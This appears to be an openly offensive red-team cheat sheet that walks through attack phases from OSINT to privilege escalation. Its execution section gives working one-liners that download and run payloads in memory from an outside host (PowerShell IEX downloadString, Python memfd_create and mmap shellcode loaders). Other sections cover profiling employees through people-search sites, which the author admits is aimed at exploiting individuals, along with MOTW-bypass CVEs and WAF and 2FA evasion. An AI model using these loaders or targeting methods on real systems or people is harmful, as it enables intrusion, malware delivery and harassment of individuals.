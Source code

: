 # Offensive Security Notes: Unredacted  
**Be advised: hot takes ahead. These are the things people don’t say out loud.**

- [OSINT](#osint)  
- [External Recon](#external-recon)  
- [Initial Access](#initial-access)  
- [Execution](#execution)  
- [Command & Control](#command--control)  
- [Credential Access](#credential-access)  
- [Lateral Movement](#lateral-movement)  
- [Privilege Escalation](#privilege-escalation)  

---

## OSINT

<table>
  <tr><td>LinkedIn</td><td>Can Filter by company and it shows employees, also even shows people based on type of degree (allows you to profile targets) - Can use VPN and dummy account</td></tr>
  <tr><td>Employee Collection</td><td>Most companies use gmail and outlook. Also most employee emails are first.lastname@domain.com,firstname@domain.com, or <lastname><first_initial><second_initial>@domain.com. Even if you get preferred names from LinkedIn you can use sites like TruePeopleSearch to get full names, phone numbers, and addresses. You can also use IDCrawl to find social media accounts.</td></tr>
  <tr><td>Targeting</td><td>Can build a mind map on individuals, including prioritization of targeting. I’ll figure out how to word what I want here. Most of it doesn't apply to "red team" since there is no real hacking. It apply to actual technqiues to exploit individuals.</td></tr>
</table>

---

## External Recon

<table>
  <tr>
    <td>Protocol Recon via Packet Grep</td>
    <td>
      <pre><code>sudo ngrep -i -d &lt;network interface&gt; 's.?a.?m.?b.?a.*[[:digit:]]' port 139
smbclient -U '%' -N -L \\\\10.10.10.10\\</code></pre>
    </td>
  </tr>
  <tr>
    <td>Using Shodan to Retrieve Open Ports and Info</td>
    <td>
      <pre><code>nmap -sn -Pn -n --script=shodan-api --script-args 'shodan-api.apikey=XXXXXX' worldsworstwebsiteever.com</code></pre>
    </td>
  </tr>
  <tr>
    <td>Firewall Evasion</td>
    <td>
      <a href="https://github.com/kritikakatyal/Firewall-Evasion-Techniques-Analysis" target="_blank">Firewall Evasion Techniques</a>
    </td>
  </tr>
</table>


## Initial Access

<table>
    <tr>
    <td>Phishing/Smishing</td>
    <td>
      <a href="https://medium.com/sud0root/mastering-modern-red-teaming-infrastructure-part-7-advanced-phishing-techniques-for-2fa-bypass-85f9adc4dc3b" target="_blank">Medium: Advanced Phishing Techniques for 2FA Bypass</a>,  
      <a href="https://posts.specterops.io/phish-sticks-hate-the-smell-love-the-taste-f4db9de888f7" target="_blank">SpecterOps: Phish Sticks</a>
      Most companies don't give all employess second phones, but have them use their personal phone.  
    </td>
    </tr>
  <tr><td>MOTW bypass</td><td>tar.gz, CVE-2025-31334 - WinRar, CVE-2025-0411 - 7-zip</td></tr>
  <tr>
    <td>Excel</td>
    <td>
      <a href="https://github.com/mttaggart/xllrs" target="_blank"> Microsoft blocks macros in documents originating from the internet (email AND web download), XLL (Excel Add-Ins) are dlls loaded by Excel. Still get warning for no signature. Need legitimate code signing certificate to avoid this.</a>
    </td>
    </tr>
    <tr>
    <td>Supply Chain</td>
    <td>
      <a href="https://github.com/0x-Apollyon/Malicious-VScode-Extension" target="_blank">Dracula VS Code plugin was trojanized previously</a>
    </td>
    </tr>
    <tr>
    <td>WAF</td>
    <td>
      <a href="https://github.com/botesjuan/Obfuscating-Techniques-WAF-Bypass" target="_blank">Obfuscation Tricks</a>, 
      <a href="https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/" target="_blank">Path Confusion</a>, 
      <a href="https://medium.com/@honze_net/vulnhub-minu-1-write-up-8032fdda5939" target="_blank">URL Encoding</a>
    </td>
    </tr>
  <tr>
    <td>Routers</td>
    <td>
      Will fill in, but popping these is how nation-states get in.
    </td>
    </tr>
    <tr>
  <td><b>Insecure Deserialization</b></td>
  <td>
    <a href="https://www.youtube.com/watch?v=t-zVC-CxYjw" target="_blank">Watch: Insecure Deserialization Explained</a><br>
    This vulnerability allows attackers to manipulate serialized objects to execute arbitrary code, escalate privileges, or bypass authentication — often used in advanced exploitation chains.
  </td>
</tr>

</table>

---

## Execution

<table>
  <tr>
    <td><b>PowerUp in Memory (CMD)</b></td>
    <td>
      <pre><code>echo IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10/PowerUp.ps1') | powershell -noprofile -</code></pre>
    </td>
  </tr>
  <tr>
    <td><b>PowerUp in Memory (PowerShell)</b></td>
    <td>
      <pre><code>wget('http://10.10.10.10/PowerUp.ps1') -UseBasicParsing | iex</code></pre>
    </td>
  </tr>
  <tr>
    <td><b>Python3 ELF In-Memory (No Params)</b></td>
    <td>
      <pre><code>python3.7 -c 'import os, urllib.request; d=urllib.request.urlopen("http://10.10.0.103/test.exe"); fd=os.memfd_create("foo"); os.write(fd,d.read()); p=f"/proc/self/fd/{fd}"; os.execve(p, [p], {})'</code></pre>
    </td>
  </tr>
  <tr>
    <td><b>Python3 ELF In-Memory (With Params)</b></td>
    <td>
      <pre><code>python3 -c 'import os; import urllib.request; d = urllib.request.urlopen("https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true"); fd = os.memfd_create("foo"); os.write(fd, d.read()); p = f"/proc/self/fd/{fd}"; os.execve(p, [p,"-Pn", "-n", "127.0.0.1"], {})'</code></pre>
    </td>
  </tr>
  <tr>
    <td><b>Python2 Shellcode Execution</b></td>
    <td>
      <pre><code>/usr/bin/python -c 'import urllib2,mmap,ctypes;d=urllib2.urlopen("http://10.10.10.10/a").read();m=mmap.mmap(-1,len(d),34,7);m.write(d);ctypes.CFUNCTYPE(None)(ctypes.addressof(ctypes.c_char.from_buffer(m)))()'</code></pre>
    </td>
  </tr>
  <tr>
    <td><b>Python2 Temp ELF Execution</b></td>
    <td>
      <pre><code>/usr/bin/python -c 'import os,urllib2,tempfile;d=urllib2.urlopen("http://10.10.10.10/config").read();f=tempfile.NamedTemporaryFile(delete=False);f.write(d);f.close();os.chmod(f.name,0755);os.execve(f.name,[f.name,"-pthread"],{})'</code></pre>
    </td>
  </tr>
</table>


## Command & Control

<table>
  <tr><td><b>Subcategory</b></td><td><b>Description / Notes</b></td></tr>
  <tr><td>Beacon Profiles</td><td>Low-and-slow configs, jitter tuning, domain fronting tricks</td></tr>
  <tr><td>Frameworks & Custom Tooling</td><td>Cobalt Strike, Sliver, custom implants, OPSEC-safe builds</td></tr>
  <tr><td>Infrastructure Setup</td><td>Redirectors, staging servers, domain blending, TLS fingerprinting</td></tr>
</table>

---

## Credential Access

<table>
  <tr><td><b>Subcategory</b></td><td><b>Description / Notes</b></td></tr>
  <tr><td>Password Dumping</td><td>LSASS scraping, memory inspection, offline SAM parsing</td></tr>
  <tr><td>Token Theft / Abuse</td><td>Impersonation, delegation tokens, S4U abuse, golden tickets</td></tr>
  <tr><td>MFA / SSO Bypass</td><td>Push fatigue, token replay, OAuth abuse, conditional access gaps</td></tr>
</table>

---

## Lateral Movement

<table>
  <tr><td><b>Subcategory</b></td><td><b>Description / Notes</b></td></tr>
  <tr><td>Remote Execution</td><td>WMI, PSRemoting, scheduled tasks, service creation</td></tr>
  <tr><td>Credential Reuse</td><td>Pass-the-Hash, Pass-the-Ticket, Kerberoasting, plaintext creds</td></tr>
  <tr><td>AD / Identity Abuse</td><td>ACL abuse, shadow admin paths, group membership manipulation</td></tr>
</table>

---

## Privilege Escalation

<table>
  <tr><td><b>Subcategory</b></td><td><b>Description / Notes</b></td></tr>
  <tr><td>Local Exploits</td><td>Kernel bugs, DLL hijacking, vulnerable drivers, CVE chaining</td></tr>
  <tr><td>Misconfigurations</td><td>Unquoted service paths, writable directories, insecure permissions</td></tr>
  <tr><td>Token / Role Abuse</td><td>Privileged token impersonation, cloud role escalation, SID history tricks</td></tr>
</table>
